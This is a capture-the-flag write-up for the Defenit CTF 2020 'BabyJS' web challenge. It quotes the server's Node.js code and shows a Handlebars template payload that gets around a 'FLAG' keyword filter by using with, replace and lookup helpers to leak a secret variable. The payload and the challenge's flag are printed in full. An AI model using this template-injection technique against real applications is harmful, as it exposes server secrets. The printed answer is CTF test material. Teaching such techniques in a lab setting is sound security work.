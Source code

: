 # BabyJS
*Defenit CTF 2020 - Web 248*<br>
*Writeup by Payload as ToEatSushi*


## Problem

Render me If you can.

## Look up

```javascript

/* ... */
if (typeof content === 'string' && content.indexOf('FLAG') != -1 || typeof content === 'string' && content.length > 200) {
    res.end('Request blocked');
    return;
}
/* ... */

app.get('/', (req, res) => {
    const { p } = req.query;
    if (!p) res.redirect('/?p=index');
    else res.render(p, { FLAG, 'apple': 'mint' });
});

app.post('/', (req, res) => {
    const { body: { content }, userDir, saveDir } = req;
    const filename = crypto.randomBytes(8).toString('hex');

    let p = path.join('temp', userDir, filename)
    
    fs.writeFile(`${path.join(saveDir, filename)}.html`, content, () => {
        res.redirect(`/?p=${p}`);
    })
});

```

Okay, we can render our own template which has <=200 bytes, and don't contians string `FLAG`. Template engine is handlebars.

## Handlebars 101

Handlebars save there own templating environ in object `this`. In fact, when we try `{{ log this }}`, then node.js console shows the structure of `this` and it includes `FLAG` and `apple`.

And, there is a one more important feature `lookup`. It returns a value of object with key. In here, key can be either string or identifier. Like, when `a='FLAG'` then, `{{lookup this a}}` will give a flag.

Finally, `#with` statement allows us to do a lot of things. Actually, it's really like javascript's `with`, which moves scope into the given object. 

## Exploit


```
{{#with this as |k|}}
  {{#with "FLag"}}
    {{#with (replace "ag" "AG") as |payload|}}
      {{lookup k payload}}
    {{/with}}
  {{/with}}
{{/with}

```

Simple explantation:
1. Save top `this` as k to prevent this is overwritten in other with block
2. with "FLag", move scope into `String "FLag"`
3. Call member function `replace` under "FLag", to make "FLAG". Save it to payload
4. Lookup saved k and get flag.

Anyway, the flag is not related with this challenge. Actually, it'll be a great hint of AdultJS.

**`Defenit{w3bd4v_0v3r_h7tp_n71m_0v3r_Sm8}`**
